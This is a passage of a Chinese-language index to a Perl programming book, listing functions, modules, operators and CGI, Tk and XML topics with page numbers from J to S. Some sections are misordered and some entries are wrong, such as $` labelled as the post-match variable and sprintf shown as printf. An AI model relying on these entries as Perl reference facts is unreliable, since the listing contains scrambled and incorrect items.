- ISP，CGI脚本与，892
- **=item text** 指令，367
- 迭代器变量，446
## J - 
- **join** 函数，81、115、155、463、478、700
- **join list** 函数，54
- 文本对齐，330–331
## K - 
- **-k** 文件测试运算符，158
- **Key-Return** 事件，649
- 键/值对，123、126
- **$key** 变量，1041、1042
- **KeyPress** 事件，649
- 键，121、125
  - 哈希解引用，396
  - 查找，128
  - 反转哈希中的键和值，133–134
- **keys** 函数，126、131、132、137、201、454、463、478–479
- 关键字，187
## L - 
- \L，66、238、361
- \l，66、238、360
- **-l** 文件测试运算符，158
- **$^L** 变量，338、419、422、438
- **Label** 方法，641
- 标签控件，640–642
- 标签，**Tk** 控件，640–642
- **last** 命令，218–219
- **lastSibling** 方法，**XML::DOM** 模块，1091
- **lc** 函数，84、342–343、478–479
- **lcfirst** 函数，343–344、480–481
- **le** 运算符，159、353
- 前导空白，模式匹配，270
- Leaning toothpick 综合征。*参见* LTS。
- **Leave** 事件，649
- 左箭头，522
- 文本左对齐，330–331
- 向左的列表运算符，147
- **length** 函数，346–347、481、582、811
- **less** 编译指示，598
- 字母检查，259
- 词法作用域变量，300、302、307
- **<LI>** 标签，917
- **li** 方法，**CGI.pm** 模块，917
- **lib** 编译指示，598、602
- 移除行结束符，514–516
- **line** 方法，664
- 面向行的消息，846
- 链表，714–716
- 列表赋值，127、136
- 列表上下文，47、49–50、80
- 列表索引，78–79
- 列表运算符，77、127、143
- **Listbox** 方法，654–657
- 列表框控件，654–657
- 列表框，654–657
- 列表，47、49、76–90
  - 将列表赋值给其他列表，80–81
  - 赋值给标量，80
  - CGI编程，924–925
  - 展平，77–78
  - **grep** 函数，85–87
  - 元素索引，78–79
  - 拼接为字符串，81–82、478
  - 链式，714–716
  - **map** 函数，84–85
  - 打印列表数据，526–529
  - 列表的引用，386–387
  - 反转，90、487–488
  - 滚动列表，924–925
  - 排序，87–89、490–491
  - 将字符串拆分为列表，82–84
- **L<name/indent>** 命令，369
- **L<name"sec">** 命令，368
- **local** 关键字，302–305
- **locale** 编译指示，598、625–626
- **localtime** 函数，442、497、498
- $localvalue 变量，279
- 文件锁，569–570、985
- **-[octnum]** 开关，22
- 逻辑**与**运算符，175–176
- 逻辑子句，167–170
- 逻辑**异或**，178
- 逻辑非运算符，151
- 逻辑**非**运算符，174–175
- 逻辑**或**运算符，176–178
- **login** 方法，849、850、861
- “长双精度”变量，8
- 先行断言，249、270–272
- 后行断言，249、270–272
- 循环索引，186、194–196
- 循环语句，185–186
- 循环
  - **do while** 循环，214–215
  - **for** 循环，13、30、112–114、115、186、194–198
  - **foreach** 循环，112、115、131、198、199–202、209、211、294–295
  - **grep** 函数，85–87、131、133、210–212
  - **last** 命令，218–219
  - **map** 函数，84–85、131、133、209–210
  - **next** 语句，216–218
  - 遍历数组，112–114
  - 遍历哈希，129–132、470
  - **redo** 循环命令，219–220
  - **until** 循环，207–209
  - **while** 循环，35、59、104、181、185–186、193、202–207、214、218、262
- 循环，181、188
- 低级格式化，341–342
- 小写
  - **lc** 函数，84、342–343、478–479
  - **lcfirst** 函数，343–344、480–481
- **ls** 命令，363、849、862
- **L<"sec">** 命令，368
- **lt** 运算符，159、353
- **l<text>** 命令，368
- LTS，74、240
- 左值，55、173
- LVALUE，387
- **LWP::Debug** 模块，1213
- **LWP::MediaTypes** 模块，1213
- **LWP::Parallel** 模块，1213
- **LWP::Protocol** 模块，1213
- **LWP::RobotUA** 模块，1213
- **LWP::Simple** 模块，852–853、1213、1215、1221、1223–1227
- **LWP::UserAgent** 模块，853–854、1213、1219、1221、1227
## M - 
- **-M** 文件测试运算符，158
- **m** 修饰符，251、256、264–265
- **m//** 运算符，231–233、247、248、250–252、260、446
- **-M** 开关，23
- **-m** 开关，23
- **$^M** 变量，439
- Macintosh系统，Perl与，17、19
- **Mail::Mailer** 模块，860–861、979–980
- **Mail::POP3Client** 模块，857–860
- **Mail::XML** 模块，1087
- 主符号表变量，453
- **MainLoop** 方法，635
- 可维护性，作为程序设计因素，42–43
- **MainWindow** 的Label方法，640–641
- **MainWindow** 控件，635
- **make**，766、770
- **make dist** 命令，761
- **make install**，761
- **make tardist** 命令，761
- **make test**，766、770
- **makefile**，760
- **map** 函数，84–85、131、133、209–210、261
- **MARC::XML** 模块，1087
- 匹配。*参见* 模式匹配。
- **Math::BigFloat** 模块，467、596
- **Math::BigInt** 模块，467、596
- **Math::Complex** 模块，468–469、596
- **Math::Trig** 模块，469、470、484、498–500、596
- 数学。*参见* 数字；三角函数。
- Unix系统最大文件描述符变量，419、437
- 内存
  - 紧急内存缓冲区变量，439
  - 哈希内存预分配，137
- 内存（最近一次括号匹配的内容），449、453
- 不存储匹配内容的括号，250
- 菜单快捷键，**Tk**，676–681
- 菜单控件，673–675
- **Menubutton** 函数，673
- 合并
  - 数组，108、109–110
  - 哈希，135–136
- 元字符，237、239、242、950
- 方法，772、774–775、783
  - 调用，787–789
  - 重写，813–815
  - 私有性，826–828
  - 引用，829–830
  - **XML::DOM** 模块，1094–1101
- MIME类型
  - 浏览器可接受的，954–955
  - 设置XML的，1182
- 最小匹配，269–270
- **mirror** 函数，**LWP::Simple** 模块，1223
- 镜像站点，1223–1224
- **mkdir** 函数，589、849
- **MLDBM** 模块，693
- **mode** 元素，111
- 修饰符，212–214、250–252、253
- 模块模板，**h2xs** 工具，757–760
- **Module.pm** 模块，601
- 模块，17–18、732–733。*另见* *各个独立模块名称下的条目。*
  - 模块中的子例程自动加载，751–754
  - 符号自动导入，743
  - 压缩用于分发，762
  - 创建，740–741
  - 用于模块的**do**语句，598
  - **h2xs** 工具，733、750、757–760
  - 安装，18、600–604
  - 模块列表，595–597
  - 命名约定，732
  - 嵌套，749–750
  - 支持PPM的模块，604–605
  - 用于模块的**require**语句，598–599
  - 标准模块，593–632
  - 提交到CPAN，762–763
  - 符号导出，741–744、745–746
  - 测试，760–761
  - 版本号，750–751
- 取模运算符，145、154
- **Motion** 事件，649
- **Mouse-<n>** 事件，649
- MS-DOS
  - 反斜杠，547
  - **binmode** 函数，555–557
  - 命令行缓冲区，522
  - 可执行文件名变量，419、444
  - 查找Perl，16–17
  - I/O处理，510
  - 安装模块，18
  - 运行Perl脚本，19
  - 移除或添加回车符，570–573
  - 其中的文本文件，12
- **mtime** 元素，111
- 多字符开关，623–625
- 多维数组，431、686、694–701
- 多行匹配变量，419、427–428
- 多行修饰符，256
- 多行输出，333–336
- 多页报告，格式，340–341
- 多重继承，804–805
- 多行文本的模式匹配，264–265
- 多个逻辑子句，190
- 多次匹配，260–263
- 乘法运算符，145、153
  - 逗号运算符，174
- m// 运算符，232、247、251


## 多线程
- 多线程，第871–876页
- 多用户聊天应用程序。*参见* 聊天应用程序。
- 修改器，第841页
- **my** 声明，第6页
- **my** 关键字，第279、299–302、303、304–305、307、311页
- **my** 语句，第739页
- **n,m?** 量词，第269页
- **no strict 'refs'** 编译指令，第409页
- **no strict 'vars'** 编译指令，第302页
- NodeList 接口，第1094–1097页
- **NodeList.getLength** 方法，属于 **XML::DOM** 模块，第1129页
- 节点，第1080–1090页
- 非整数指数，第150页
- 非空白字符，第255页
- **not** 运算符，第143、174–175页
- 第n次匹配，第262页
- 空列表，第109页
- 数字转换
  - 十进制与二进制之间，第59–60、483、502页
  - 十进制与十六进制之间，第61–62、475、477页
  - 十进制与八进制之间，第60–61页
- 数字，第48页
  - 绝对值，第171、465页
  - 二进制数，第6、59–60、483、502页
  - 检查，第258页
  - 复数，第468–469页
  - 小数位数，第332页
  - 指数，第473–474页
  - 格式化，第332–333页
  - **hex** 函数，第62、156、475页
  - 十六进制数，第61–62、257、475、477、502页
  - **int** 函数，第63、153、476–477页
  - **integer** 模块，第104、477–478页
  - **Math::BigFloat** 模块，第467、596页
  - **Math::BigInt** 模块，第467、596页
  - 八进制数，第60–61页
  - 打印数字的输出格式，第418、425页
  - 模式匹配，第258页
  - 打印，第332–333页
  - 随机数，第486–487、496页
  - 舍入，第63–64页
  - 在标量变量中，第55–56页
  - 平方根，第156、465、495–496页
- 数值比较运算符，第118页
- 数值上下文，第65页
- 数值计算，第56页
  - 创建方法引用，第829–830页
  - 数据访问方法，第790–795页
  - 数据成员，第774、775页
  - 委托类关系，第833–836页
  - 析构函数，第797–798页
  - 哈希，第778页
  - 继承，第773、775–776、798–805页
  - 初始化对象，第777页
  - 方法，第772、774–775、783–789页
  - 对象，第772、774–776、777–783页
  - 包含其他对象的对象，第831–833页
  - 运算符重载，第810–811、836–842页
  - 私有性，第794–795、809–810、823–828页
  - 在实例变量中存储数据，第789–790页
  - 将数组绑定到类，第818–819页
  - 将数据类型绑定到类，第808–809页
  - 将哈希绑定到类，第820–821页
  - 将标量绑定到类，第816–817页
- **UNIVERSAL** 类，第821–823页
- 将数据成员用作变量，第830–831页
## N
- \N，第66页
- \n，第33、66、238、264、360页
- %n，第351页
- **n?** 量词，第269页
- **n,?** 量词，第269页
- **{n}** 限定符，第243页
- **{n,}** 限定符，第243页
- -n 开关，第22、23、758页
- **$n** 变量，第453页
- **name** 方法，第825页
- 当前文件名变量，第452页
- 当前报告格式名变量，第419、422、448页
- 命名参数，第316–317、894页
- 命名一元运算符，第145、156–157页
- **NamedNodeMap** 对象，第1094、1096、1109页
### 名称
- 当前文件名变量，第452页
- 获取子例程的名称，第308–310页
- 符号引用，第377–378、406页
- 临时文件名，第577页
- 命名空间，第730页
- 自然对数底数，第473页
- NDBM 数据库，第691、692、723、1026、1182页
- **NDBM_File** 模块，第596、692、712、723、835页
- **ne** 运算符，第160、353页
- 负指数，第150页
- 否定前向断言，第270–272页
- 嵌套模块，第749–750页
- 嵌套子例程，第311–312页
- **Net::FTP** 模块，第849页
- **Net::hostent** 模块，第596页
- **Net::netent** 模块，第596页
- **Net::NNTP** 模块，第856页
- **Net::NNTPClient** 模块，第855–857页
- **Net::Ping** 模块，第596、855页
- **Net::protoent** 模块，第596页
- **Net::servent** 模块，第596页
- **Net::Telnet** 模块，第861–862页
### **new** 方法
- **IO::Socket::INET** 模块，第865–866页
- **IO::Socket** 模块，第866、886–888页
- **Mail::POP3Client** 模块，第857页
- **Net::Telnet** 模块，第861页
- **POSIX::Termios** 模块，第525页
- **Term::ReadLine** 模块，第541页
- **XML::Parser** 模块，第1146–1148页
- 新闻组，第855–857页
- **next** 键，第715页
- **next** 语句，第216–218页
- **nextChild** 方法，属于 **XML::DOM** 模块，第1091页
- **nlink** 元素，第111页
- **{n,m}** 限定符，第243页
## O
- %O，第351页
- %o，第351页
- -O 文件测试运算符，第158页
- -o 文件测试运算符，第158页
- o 修饰符，第251页
- **$^O** 变量，第419、439页
- 对象数据，第789页
- 对象方法，创建，第784–787页
### 面向对象编程（OOP），第772–776页
- 类，第772、773、777页
- 闭包，第823–826页
- 拷贝构造函数，第840页
- 创建类，第777页
- 创建类方法，第783–784页
- 创建跨对象共享的类变量，第795–796页
- 创建对象方法，第784–787页
- 从类创建对象，第781–783页
### 对象，第772、774–776页
- 包含其他对象，第831–833页
- 创建跨对象共享的类变量，第795–796页
- 从类创建，第781–783页
- 用构造函数初始化，第777–781页
- **oct** 函数，第61、156页
- 八进制转义字符，第66页
- 八进制数，转换，第60–61页
- ODBM 数据库，第691、692页
- **ODBM_File** 模块，第692页
- -oi 开关，第977页
- 一维数组，第689、693页
- 在线用户注册，第1233–1237页
- **Opcode** 模块，第596页
- **open** 函数，第6、549–551页
- **opendir** 函数，第586–587页
- 操作系统名称变量，第419、439页
- 运算符优先级，第144–146页
### 运算符，第48、143页
- 加法运算符，第143、145、155、836–838页
- 箭头运算符，第145、148页
- 赋值运算符，第53–54、80页
- 自减运算符，第145、149页
- 自增运算符，第145、149页
- 二元运算符，第143、155、810–811、836–839页
- 绑定运算符，第145、152页
- 按位运算符，第162–166页
- 按位字符串运算符，第166–167页
- Perl 中不存在的 C 语言运算符，第182页
- 逗号运算符，第173–174页
- 比较运算符，第118、146、159–160页
- 连接运算符，第155页
- 条件运算符，第143、171–172页
- 除法运算符，第145、153页
- 相等性运算符，第146、160–161、172–173、840页
- 幂运算符，第145、150页
- Perl 解释器文件 I/O 运算符，第179–181页
- 文件测试运算符，第145、157–158页
- 与函数的对比，第144页
- 向左列表运算符，第147页
- 列表运算符，第77、127、143页
- 逻辑子句，第167–170页
- 取模运算符，第145、154页
- 乘法运算符，第145、153页
- 修改器，第841页
- **not** 运算符，第143、174–175页
  - 在面向对象编程中，第810–812页
  - 重载，第810–812、836–842页
  - 优先级，第144–146页
- 引号运算符，第100、178–179页
- 范围运算符，第100、170–171页
- 关系运算符，第146、159–160页
- 重复运算符，第145、154页
- 向右列表运算符，第146、147、174页
- 在标量变量上，第54页
- 位移运算符，第145、156页
- 短路运算符，第168、169、177页
- 字符串处理运算符，第231页
- 减法运算符，第145、155、836、838–839页
- 三元运算符，第143页
- 一元运算符，第143、145、151–152、156–157、182、810–811、839–842页
- **ops** 编译指令，第598页
- **$opt** 变量，第120页
- **or** 运算符，第146、159、176–178、190页
  - 按位形式，第163–164、166–167页
  - C 风格逻辑 **Or**，第168–170页
- **ord** 函数，第354–355页
- **our** 声明，第6、306、739–740页
- 输出格式。*参见* 格式。
  - 维护多个已打开的输出文件，第621–622页
  - 输出字段分隔符，第417页
  - 输出字段分隔符变量，第419、422、429页
  - 输出格式换页符变量，第419、422、438页
  - 输出记录分隔符变量，第419、422、433页
  - **=over** # 指令，第367页
  - **overload** 模块，第812页
  - **overload** 编译指令，第598、836、839页
- 运算符重载，第810–811、836–842页
### 重写基类方法，第813–815页
- 运算符，第810页
## P
- **%P**，第351页
- **%p**，第351页
- **-p** 文件测试运算符，第158页
- **.p** 文件，第12页
- **-P** 开关，第23页
- **-p** 开关，第22、23、120、578页
- **$^P** 变量，第419、440页
- **pack** 函数，第60、347–350、355、468、481–483、502、559–560、582、583页
- **pack** 方法，用于 **Tk** 控件，第646–648、661、679页
- 包构造函数，第735–736页
- 包分隔符，第749页
- 包析构函数，第736–737页
- **__PACKAGE__** 标识符，第737页
- 包名称，第318页
- 包作用域，第730页
- **package** 语句，第730、734–735、738–739页
### 包，第306、730–732页
- **BEGIN** 子例程，第735–736页
- 创建，第734–735页
- 确定名称，第737–738页
- **END** 子例程，第736–737页
- 跨包的全局作用域，第739–740页
- 模块，第732–733、749–750页
- **our** 声明，第739–740页
- 用包名称限定符号，第746–748页
- 跨文件边界拆分，第738–739页
- **page** 函数，第994–995页
- **PApp::XML** 模块，第1087页
- **param** 方法，属于 **CGI.pm** 模块，第894、904、921、922、924–925、935、938、1036、1182页
- 父元素，第1090页
### 括号，第147、248页
- 最后一次括号匹配变量，第419、449页
- 免内存括号，第250页
### 无括号子例程调用，第284页
### **parse** 方法
- **HTML::LinkExtor** 模块，第1217–1219页
- **XML::Parser** 模块，第1148页
- **parse_done** 方法，属于 **XML::Parser** 模块，第1149页
- **parsefile** 方法，属于 **XML::DOM::Parser** 模块，第1101页
- **parse_more** 方法，属于 **XML::Parser** 模块，第1148页
- **parse_start** 方法，属于 **XML::Parser** 模块，第1148页
- **parsestring** 方法，属于 **XML::Parser** 模块，第1148页
- Perl 中的解析，第1215–1217页
- SAX 解析。*参见* SAX 解析。
- XML 解析。*参见* XML 解析。
- 按引用传递，第312–313、384、385页
- **password_field** 方法，属于 **CGI.pm** 模块，第927页
- 密码，第537、927–928页
- **PATH** 变量，第1020页
### 模式，第231页
- **\<pattern\>**，第181页
### 模式匹配，第446页
- 交替匹配，第241–242、266页
- 断言，第244–245页
- 对先前匹配的反向引用，第246–248页
- 回溯，第244页
- 行首匹配，第244、245、255–256页
- 不区分大小写匹配，第266页
- 字符类，第240–241页
- 字符，第237–240页
- 检查字母，第259页
- 检查数字，第258页
- 点号字符，第239、264、323页
- 行尾匹配，第244、245、256–257页
- 提取子串，第267页
- 查找重复单词，第268页
- 查找多个匹配，第260–263页
- **\G** 断言，第245、263–264页
- **m//** 运算符，第231–233、247、248、250–252、260、446页
- 最小匹配，第269–270页
- 最近一次模式匹配，第418、426–427页
- 多行匹配变量，第419、427–428页
- 在多行文本中，第264–265页
- 第n次匹配，第262页
- 模式匹配编号 **n** 变量，第453页
- 匹配后字符串变量，第418、423页
- 匹配前字符串变量，第419、447页
- 去除首尾空白，第270页
- **s///** 运算符，第233–234、250–252、265、446、578页
- 从上次模式匹配结束的位置开始搜索，第263–264页
- 字符串字符，第356页
- **tr//** 运算符，第234–235、252–253、446、573页
- 网站搜索，第1017、1039–1047页
- 单词，第254–255页
- **PAUSE**，第762–763页
- 百分号，第52、96、121页
- 性能，作为程序设计的考量因素，第42页
- **perl**（Perl 解释器），第4页
### Perl
- 缩写，第321页
- 二进制数，第59–60、483、502页
- 作为跨平台语言，第4页
- 当前版本，第8、434页
- 设计问题，第41–44页
- 十六进制数，第61–62、257、475、477页
- 历史，第3–5页
- 安装，第8–11页
- 与 WML 接口，第1205–1210页
- 作为解释型语言，第4页
- 获取，第8、9页
- 八进制数，第60–61页
- 流行度，第5页
- 程序设计，第41–44页
- 安全性，第949–950页
- “Tim Toady” 口号，第36页
- Unicode，第64页
- Unix 支持，第9页
- 作为字符串变量的版本号，第419、442–443页
- 版本编号系统，第5页
- 与 WML 相关，第1205–1210页
- 与 XML 相关，第1086–1089页
- Perl 5.6，第5–7页
- Perl 作者上传服务器。*参见* **PAUSE**。
- **perl** 命令，第19、21页
- Perl 可执行文件名称，第419、444页
### Perl 解释器，第4、14–17、365页
- 当前版本，第434页
- 进程号，第418、425–426页


# perl Makefile.PL 解释器状态变量，440–441 **taintperl**, 951–952 **perl Makefile.PL**, 760
Perl 模块，17–18
Perl 包管理器，见 PPM。
Perl 程序，另见 Perl 脚本。
设计，42–43
结尾，225–226
Perl 脚本
- 避免在 Windows 中关闭脚本，17, 40–41
- 清理已输入内容，39–40
- 代码执行时间，606
- 注释，34–35
- 约束编码规范，627–629
- 创建，11
- 默认变量，36–39
- 在脚本中嵌入 POD，369–371
- **eval** 函数，28, 156, 224–225
- 文件扩展名，12
- 代码中缩进**here**文档，327–328
- MS-DOS/Windows，12
- 当前文件名称变量，452
- 命名，12
- 在线用户注册，1233–1237
- **print** 函数，31–32
- 运行代码，19–30
- 保存，11–12
- **strict** 模块，627–629
- 文本输入与输出，30–32, 35–36
- 脚本开始运行的时间变量，419, 441–442, 497–498
- Unix，12
- 用于 Web，1212–1237
- 编写代码，11–18
Perl shell，27–30
**perl_clone**, 6
PerlScript，913–914
**$PERL_VERSION** 操作符，616
权限
- CGI 脚本，892, 940
- Unix 系统，583, 802
持久变量，307–308
**PF_INET**, 882
**PF_UNIX**, 882, 883
**Photo** 方法，665
图片行，格式化项，329, 330, 335
管道，关闭，551
**.pl** 文件，12
**pl2bat**.bat 工具，16, 19
**place** 函数，670–671
**place** 几何管理器，669
普通旧文档，见 POD。
纯文本文件，11–12
POD，365–371
**Pod::Text** 模块，597
POD 命令，368–369
**=pod** 指令，367
POD 指令，366–368
POD 过滤器，365
**pod2html**, 365, 368
**pod2man**, 365
**pod2text**, 365
**pop** 函数，103–104
弹出菜单，**CGI.pm** 模块，928–929
**pop-up_menu** 方法，**CGI.pm** 模块，928–929
**pos** 函数，263
正向前向断言，270–272
POSIX::**acos** 函数，470
POSIX::**asin** 函数，489
POSIX::**setattr** 函数，521
POSIX::**strs** 函数，484
POSIX::**Termios** 模块，523–526, 533
POSIX 文件函数，566–567
POSIX 函数，483–485
POSIX 模块，484, 566, 597
后匹配字符串变量（$`），418, 423
e 的幂次，473–474
**PPCODE**：标签，765
PPM，603–604
编译指示，315, 594
- **diagnostics** 编译指示，598
- 禁止符号引用，408
- **English** 编译指示，419–420
- **integer** 编译指示，598
- **less** 编译指示，598
- **lib** 编译指示，598, 602
- 列表，598
- **locale** 编译指示，598, 625–626
- **no strict 'refs'** 编译指示，400
- **no strict 'vars'** 编译指示，302
- **ops** 编译指示，598
- **overload** 编译指示，598, 836, 839
- **re** 编译指示，598
- **sigtrap** 编译指示，598
- **strict** 编译指示，53, 598
- **subs** 编译指示，317–318, 598
- **use strict refs** 编译指示，315, 385, 575, 627–628
- **use strict 'subs'** 编译指示，628–629
- **use strict 'vars'** 编译指示，302, 594, 628, 690
- **use warnings** 编译指示，445
- **vars** 编译指示，598
- **vmish** 编译指示，598
**pre** 方法，**CGI.pm** 模块，1036
预定义变量，417–423
- 对应的英文别名，419–421, 614–615
- 只读，422
- 为其选择文件句柄，420–422
前缀解引用符，48, 52, 95, 96, 97, 122, 288, 377–378, 395
前缀操作符，376
前匹配字符串变量，419, 447
**prepare** 方法，727
**print** 函数，31–32, 49, 114, 433, 446, 526–527, 552–554, 580, 881, 894
**print $inner** 语句，300
**print** 操作符，17, 144
**printf** 函数，527–529
**printfOK** 子例程，277–278, 279
打印
- 数组，114–115
- 控制台彩色输出，529
- 数据结构，718–720
- 诊断消息，612–614
- 格式化文本写入文件，338–340
- 哈希，132–133
- 列表数据，526–529
- 数字，332–333
- **print** 函数，31–32, 49, 114, 433, 446, 526–527, 552–554, 580, 881, 894
- 二维数组，689
**printToFile** 方法
- **XML::DOM::Parser** 模块，1102
- **XML::DOM** 模块，1134
隐私性
- 闭包，823–826
- 面向对象编程，794–795, 809–810, 823–828
私有实例方法，794–795
私有方法，774
- 使用匿名子例程，826–828
私有变量，794–795
进程号变量，418, 425–426
处理指令节点，1111–1112
处理指令，1093, 1154
子例程原型，282, 285–286
公共方法，774
**push** 函数，100, 103–104
**put** 方法，849

## Q
\Q，66, 238, 361
**q//** 结构，74, 361
**q[]** 结构，360
**q** 操作符，360
**qq//** 结构，74–75, 361
**qq//imosx**，361–363
**qq[]** 结构，360
**qr//**, 273–274, 361, 362
**qr[]** 结构，360
**QUERY[UND]PATH** 变量，1020
*?* 量词，269
**quit**, 849
引号，73, 147，另见双引号；单引号。
类引号操作符，178, 179
引号操作符，100, 178–179
**quotemeta** 函数，76, 240
引号操作符，359–365
**qw//** 结构，74, 75–76, 78, 83, 100, 123, 364–365
**qw[]** 结构，360
**qx//** 结构，74, 363
**qx[]** 结构，360

## R
\r，33, 66, 238, 360
**-R** 文件测试操作符，158
**$^R** 变量，440
**rad2deg** 函数，489, 499
**rad2grad** 函数，499
弧度转角度，499
单选按钮菜单，**Tk**, 676–681
单选按钮
- CGI 编程，925–927
- **Tk**, 650–651, 653
**radio_group** 方法，**CGI.pm** 模块，925–926
**rand** 函数，486–487
随机访问，563, 581–583
随机数种子，496
随机数，486–487
范围操作符，100, 170–171
**raw_cookie 方法，CGI.pm 模块**, 1002
**rdev** 元素，111
**re** 编译指示，598
**read** 函数，559–560, 582
只读预定义变量，422
**readdir** 函数，587

### 读取
- 传递给子例程的参数，290–294
- 数组写入文本文件，579–580
- 从客户端读取，870, 880–881
- Cookie，1002
- 数据库文件，724–725
- 目录项，587
- 命令行传入的文件，558
- 哈希写入文本文件，580–581
- 从 HTML 控件读取，904–912, 921
- 逐字节输入，559–560
- 使用尖角操作符输入，530
- 单行数据，560–561
- 密码，537
- 逐字节读取输入，559–560
- 从服务器读取，867–868, 878
- XML 文档，1176
**ReadKey** 函数，536, 537, 538
**ReadKey** 模块，535–540
**readline** 函数，537, 538, 560–561
**ReadMode** 函数，536, 537–538
**readXML 方法，CGI::XMLForm 模块**, 1165, 1187–1189
实际组 ID 变量，418, 427
实际用户 ID 变量，419, 449–450
**record** 子例程，721
**redirect 方法，CGI.pm 模块**, 1025
**redo** 循环命令，219–220
**ref** 函数，811
**ref** 操作符，404–405
**$reference**, 376

### 引用
引用，98, 375
- 匿名数组引用，379–380, 387–389
- 匿名哈希引用，379–380, 389–391
- 匿名子例程引用，379, 391–392
- 数组引用，382–383
- 箭头操作符，378–379, 398–400
- 自动实例化，51, 385, 398
- 循环引用，409–410
- 创建，381–392
- 解引用，395–400
- 确定类型，404–405
- 展平，77–78, 401
- 通过符号表获取，393–394
- 硬引用，375–377, 381–387
- 哈希引用，383
- IO 引用，382
- 列表引用，386–387
- 方法引用，创建，829–830
- 通过引用传递，384, 385, 401–403
- **ref** 操作符，404–405
- 标量引用，382
- 子例程引用，383–384
- 符号引用，377–378, 406–409
- typeglob 引用，384–385
- 弱引用，6, 410
刷新率，聊天应用，986–987
正则表达式扩展，248–250

### 正则表达式
正则表达式，231
- 备选匹配模式，241–242, 206
- 断言，244–245
- 前向匹配反向引用，246–248
- 回溯，244
- 不区分大小写匹配，266
- 字符类，240–241
- 字符，237–240
- 检查字母，259
- 检查数字，258
- 编译，272–274
- 创建，236–250
- 扩展，248–250
- 提取子串，267
- 查找重复单词，268
- 查找多次匹配，260–263
- 其中的函数调用，267
- **\G 断言**, 245, 263–264
- **m// 操作符**, 231–233, 247, 248, 250–252, 260, 446
- 匹配行首，244, 245, 255–256
- 匹配行尾，244, 245, 256–257
- 多行文本匹配，264–265
- 匹配单词，254–255
- 最小匹配，269–270
- 组成部分，236–237
- 其中的 Perl 表达式，267–268
- 去除首尾空白，270
- 上一次正则表达式断言结果变量，440
- **s/// 操作符**, 233–234, 250–252, 265, 446, 578
- 从上次匹配结束的位置开始搜索，263–264
- **tr/// 操作符**, 234–235, 252–253, 446, 573
**关系操作符**, 146, 159–160
**REMOTE_ADDR 变量**, 1020
**REMOTE_HOST 变量**, 1020
**REMOTE_PORT 变量**, 1020
**removeChild 方法，XML::DOM 模块**, 1140
**rename** 函数，585
**重复操作符**, 145, 154
**replaceChild 方法，XML::DOM 模块**, 1136–1139

### 报告
报告
- 格式，见“格式”。
- 报告警告和错误，513
**request** 方法，853–854, 1220, 1227
**REQUEST_METHOD 变量**, 1020
**REQUEST_URI 变量**, 1020
**require** 语句，598–599, 732, 734
**require_version** 方法，751
重置按钮，HTML 表单，931
**reset 方法，CGI.pm 模块**, 903
上一次正则表达式断言结果变量，440
**retrieve** 函数，579, 581, 717
**return** 函数，156, 280–281
**reverse** 函数，117, 133, 357, 487–488
反向索引函数，488
**rewinddir** 函数，588
右箭头，522
文本右对齐，331
**右向列表操作符**, 146, 147, 174
**rindex** 函数，344, 488
**环形缓冲区**, 714–716
**rmdir** 函数，156, 589–590

## S
**\S**, 238, 254, 255, 259
**\s**, 238, 255
**%s**, 351
**s/// 结构**, 74
**-S 文件测试操作符**, 158
**-s 文件测试操作符**, 158
**s** 修饰符，251, 253, 264
**s/// 操作符**, 233–234, 250–252, 265, 446, 578
**-$S 开关**, 23
**-s 开关**, 23
**$^S 变量**, 440–441
**Safe** 模块，593, 597, 626
**SAX**, 1119–1122
**SAX 解析**, 1119, 1121–1122, 1145, 1149–1150, 1155–1157
- 其中的错误，1159–1160
- 示例脚本，1155–1157
**<$scalar>**, 181
**标量上下文**, 47, 49–50, 51
- 数组，113
- 逗号操作符，173–174
- 强制转换，90–91
- 哈希，125
- **m// 操作符**, 232, 251
- **values 函数**, 504
**scalar** 函数，90–91, 107
**标量前缀解引用符**, 376, 406

### 标量变量（标量）
标量变量（标量），47–49, 51
- **<$ scalar>**, 181
- 赋值给列表，81
- 赋值操作符，53–54
- 数制转换，59–63
- 创建，51
- 声明，53
- 默认值，62
- 插值，69–71
- 与列表，76–90
- 左值，55
- 命名，52
- 其中的数字，55–56, 59–62
- 操作符，54
- 传递给子例程，292
- 对其的引用，382
- 数字取整，63–64
- 字符串或数字，67–68
- 其中的字符串，64–68
- 真值，58–59
- 绑定到类，816–817
- 未定义值，56–57
**比例滑块**, 657–660

### 作用域
作用域
- 动态作用域变量，300, 303

## 作用域闭包
- 全局作用域，730，739–740
- 词法作用域变量，300，302，307
- 限制，53
- 子例程的作用域，278–279，299–302，306
作用域闭包，412–413
屏幕，清除，533–534
屏幕尺寸，537
脚本名变量，419，452
SCRIPT_FILENAME 变量，1020
SCRIPT_NAME 变量，1020
滚动条组件，660–662
Scrolled 构造器，672–673
滚动组件，672–673
scrolling_list 方法，CGI.pm 模块，924–925
SDBM 数据库，691，692
SDBM_File 模块，597，692
Search::Dict 模块，597
搜索按钮，点击后的后续操作，1039
搜索。参见网站搜索。
安全
- CGI 编程，947–950
- 闭包，823–826
- "crack" 程序，950
- 黑客攻击，950
- 互联网信息来源，947
- 多用户安全，985
- 面向对象编程，790–795，823–826
- Perl，949–950
setispeed 方法，POSIX::Termios 模块，526
setspeed 方法，POSIX::Termios 模块，526
setoflag 方法，POSIX::Termios 模块，526
setospeed 方法，POSIX::Termios 模块，526
SetTerminalSize 函数，537，539
Shell 命令，作为子例程，626–627
Shell 模块，597，626–627
shift 函数，105–106，291–292
位移运算符，145，156
购物车应用，1017–1019，1048–1070
短路运算符，168，169，177
Show 方法，682
%SIG 变量，457–458
信号处理器，457–458
信号钩子，457
信号，457，511–512
sigtrap 编译指示，598
简易 XML API。参见 SAX。
简单对象访问协议。参见 SOAP。
简单语句，13，187
sin 函数，489
正弦，对应函数，489
单字符开关，622–623
单引号，52，66，69，70
站点搜索。参见网站搜索。
- 哈希，134–135
- 列表，87–89，490–491
splice 函数，115–116
split 函数，83–84，356，364，492–493
printf 函数，61，62，63，68，162，325，350–352，425，493–495
SQL，727
sqrt 函数，156，465，495–496
方括号，21，78，79，95，99，101，122，148，387
平方根，156，465，495–496
srand 函数，486，496
标准模块。参见模块。
standout 方法，Curses 模块，516
start_form 方法，CGI.pm 模块，902–903，919–920，931，935
start_html 方法，CGI.pm 模块，914
start_multipart_form 方法，CGI.pm 模块，1034–1035
stat 函数，79，111，177，564–566
解释器状态变量，440–441
语句修饰符，212–214
语句，13
- 代码块，187–188
- 条件语句，184–185，186，188
- 循环语句，185–186
- 修饰符，212–214
- 简单语句，13，187
静态变量，307–308
seek 函数，562–563，564，582
seekdir 函数，588
select 函数，448，567
SelectSaver 模块，597
SelfLoader 模块，597，755–756
分号，187，318
sendmail 应用，860–861，974–979
Separator 方法，674
分隔符，674
顺序访问，563，582
服务器推送，CGI 脚本，982，994–996
